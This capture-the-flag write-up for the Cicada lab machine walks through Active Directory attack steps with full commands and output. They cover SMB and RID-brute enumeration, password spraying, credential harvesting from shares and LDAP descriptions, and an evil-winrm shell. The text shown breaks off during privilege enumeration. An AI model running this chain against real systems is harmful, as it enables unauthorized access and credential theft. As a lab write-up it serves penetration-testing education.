

## Summary

The box starts with with a readable `IPC$` share on port `445/TCP` for every `unauthenticated user`. This allows to create a list of `usernames` by using `RID Brute Forcing`. Furthermore the `HR share` is also readable without any `authentication` and it contains a `textfile` with instructions as well as a `default password` for `new hires`. By putting the `list of usernames` together with the `default password` a match for the user `michael.wrightson` can be found. With his credentials the password for the user `david.orelious` can be found by reading the `user descriptions`. His credentials provide access to the `DEV share` which contains a `PowerShell script` with `hardcoded credentials` for the user `emily.oscars`. This user now gives `foothold` via `WinRM` and leads to the `user.txt`. To `escalate the privileges` to `system` a quick look into the `privileges` of `emila.oscars` is enough to spot the `SeBackupPrivilege`. Extract `system` and `sam` out of the `registry`, download them and extract the `hashes` using `impacket-secretsdump`. Then login using `Pass-the-Hash (PtH)` grab the `root.txt` and close the box.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
- [RID Brute Forcing](#RID-Brute-Forcing)
- [Investigating HR Share](#Investigating-HR-Share)
- [Getting Password for michael.wrightson](#Getting-Password-for-michaelwrightson)
- [Getting the Password for david.orelious](#Getting-the-Password-for-davidorelious)
- [Investigating DEV Share](#Investigating-DEV-Share)
- [Getting Password for emily.oscars](#Getting-Password-for-emilyoscars)
- [Foothold](#Foothold)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

We performed the typical `port scans` to not miss-out on anything but the ports were pretty standard for a `Windows` box.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.180.249
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 13:36 CEST
Nmap scan report for 10.129.180.249
Host is up (0.014s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-29 18:36:15Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-29T18:36:56
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.68 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.180.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 13:37 CEST
Nmap scan report for 10.129.180.249
Host is up (0.013s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-29 18:40:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
62484/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-29T18:41:11
|_  start_date: N/A
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 237.20 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.180.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 13:46 CEST
Nmap scan report for 10.129.180.249
Host is up (0.020s latency).
Not shown: 997 open|filtered udp ports (no-response)
PORT    STATE SERVICE      VERSION
53/udp  open  domain       Simple DNS Plus
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-29 18:46:09Z)
123/udp open  ntp          NTP v3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5079.49 seconds
```

We added `cicada.htb` and `CICADA-DC.cicada.htb` to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.180.249  cicada.htb
10.129.180.249  CICADA-DC.cicada.htb
```

### Enumeration of Port 445/TCP

Since there was no `website` given we started by `enumerating` port `445/TCP`. Luckily enough it was possible to read `IPC$` without `authentication`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.180.249 -u '' -p '' --shares 
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\: 
SMB         10.129.180.249  445    CICADA-DC        [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.180.249 -u ' ' -p ' ' --shares
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\ :  
SMB         10.129.180.249  445    CICADA-DC        [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.180.249 -u 'guest' -p '' --shares   
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.180.249  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.249  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.249  445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.249  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.249  445    CICADA-DC        C$                              Default share
SMB         10.129.180.249  445    CICADA-DC        DEV                             
SMB         10.129.180.249  445    CICADA-DC        HR              READ            
SMB         10.129.180.249  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.249  445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.129.180.249  445    CICADA-DC        SYSVOL                          Logon server share
```

## RID Brute Forcing

So we performed `RID Brute Forcing` to get a `set of usernames` out of it.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.180.249 -u 'guest' -p '' --rid-brute
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.180.249  445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.180.249  445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.180.249  445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.180.249  445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.180.249  445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.180.249  445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.180.249  445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.180.249  445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

| Username          |
| ----------------- |
| support           |
| administrator     |
| john.smoulder     |
| sarah.dantelia    |
| michael.wrightson |
| david.orelious    |
| emily.oscars      |

## Investigating HR Share

Next-up we took a look at the `HR share` which we could also `read`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.180.249 -u 'guest' -p '' --shares -M spider_plus -o DOWNLOAD_FLAG=true
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\guest: 
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.129.180.249  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.249  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.249  445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.249  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.249  445    CICADA-DC        C$                              Default share
SMB         10.129.180.249  445    CICADA-DC        DEV                             
SMB         10.129.180.249  445    CICADA-DC        HR              READ            
SMB         10.129.180.249  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.249  445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.129.180.249  445    CICADA-DC        SYSVOL                          Logon server share 
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.180.249.json".
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] SMB Shares:           7 (ADMIN$, C$, DEV, HR, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] SMB Readable Shares:  2 (HR, IPC$)
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Total folders found:  0
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Total files found:    1
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File size average:    1.24 KB
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File size min:        1.24 KB
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File size max:        1.24 KB
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File unique exts:     1 (.txt)
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Downloads successful: 1
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [+] All files processed successfully.
```

And we found a `Notice from HR.txt` file inside the share which contained a `default password` for `new hires`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cicada/files]
└─$ cat Notice\ from\ HR.txt 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

| Password                 |
| ------------------------ |
| Cicada$M6Corpb*@Lp#nZp!8 |

## Getting Password for michael.wrightson

We sprayed the newly found `password` together with the previously extracted `list of usernames` against the box and got a hit for `valid credentials` on `michael.wrightson`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cicada/files]
└─$ netexec smb 10.129.180.249 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'               
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

| Username          | Password                 |
| ----------------- | ------------------------ |
| michael.wrightson | Cicada$M6Corpb*@Lp#nZp!8 |

## Getting the Password for david.orelious

As next step we used the `credentials` to read the `user descriptions` and found another `password`. This time it was for the user `david.orelious`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cicada/files]
└─$ netexec ldap 10.129.180.249 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -M get-desc-users
/usr/lib/python3/dist-packages/bloodhound/ad/utils.py:115: SyntaxWarning: invalid escape sequence '\-'
  xml_sid_rex = re.compile('<UserId>(S-[0-9\-]+)</UserId>')
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.180.249  389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
GET-DESC... 10.129.180.249  389    CICADA-DC        [+] Found following users: 
GET-DESC... 10.129.180.249  389    CICADA-DC        User: Administrator description: Built-in account for administering the computer/domain
GET-DESC... 10.129.180.249  389    CICADA-DC        User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.129.180.249  389    CICADA-DC        User: krbtgt description: Key Distribution Center Service Account
GET-DESC... 10.129.180.249  389    CICADA-DC        User: david.orelious description: Just in case I forget my password is aRt$Lp#7t*VQ!3
```

| Username       | Password       |
| -------------- | -------------- |
| david.orelious | aRt$Lp#7t*VQ!3 |

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cicada/files]
└─$ netexec smb 10.129.180.249 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
```

## Investigating DEV Share

The newly found credentials of `david.orelious` made us capable of reading the content of the `DEV share`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cicada/files]
└─$ netexec smb 10.129.180.249 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.180.249  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.249  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.249  445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.249  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.249  445    CICADA-DC        C$                              Default share
SMB         10.129.180.249  445    CICADA-DC        DEV             READ            
SMB         10.129.180.249  445    CICADA-DC        HR              READ            
SMB         10.129.180.249  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.249  445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.180.249  445    CICADA-DC        SYSVOL          READ            Logon server share
```

For convenience we downloaded all of it's content using `NetExec`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cicada/files]
└─$ netexec smb 10.129.180.249 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares -M spider_plus -o DOWNLOAD_FLAG=true
SMB         10.129.180.249  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.249  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.129.180.249  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.249  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.249  445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.249  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.249  445    CICADA-DC        C$                              Default share
SMB         10.129.180.249  445    CICADA-DC        DEV             READ            
SMB         10.129.180.249  445    CICADA-DC        HR              READ            
SMB         10.129.180.249  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.249  445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.180.249  445    CICADA-DC        SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.180.249.json".
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] SMB Shares:           7 (ADMIN$, C$, DEV, HR, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] SMB Readable Shares:  5 (DEV, HR, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Total folders found:  33
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Total files found:    12
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File size average:    1.09 KB
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File size min:        23 B
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File size max:        5.22 KB
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] File unique exts:     6 (.ps1, .txt, .pol, .ini, .cmtx, .inf)
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [*] Downloads successful: 12
SPIDER_PLUS 10.129.180.249  445    CICADA-DC        [+] All files processed successfully.
```

## Getting Password for emily.oscars

The `DEV share` only contained one file which was `Backup_script.ps1`. A quick look onto it revealed another set of `credentials`. This time for `emily.oscars`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cicada/files]
└─$ cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

| Username     | Password         |
| ------------ | ---------------- |
| emily.oscars | Q!3@Lp#M6b*7t*Vt |

## Foothold

The user `emily.oscars` was allowed to login into the box using `WinRM`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i '10.129.180.249' -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
3082bc0bc9b4ac7f6c76966b10b60e4a
```

## Enumeration

We immediately spotted the `SeBackupPrivilege` of `emily.oscars` and therefore we knew how to proceed to `elevate our privileges` to `system`.

```c
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
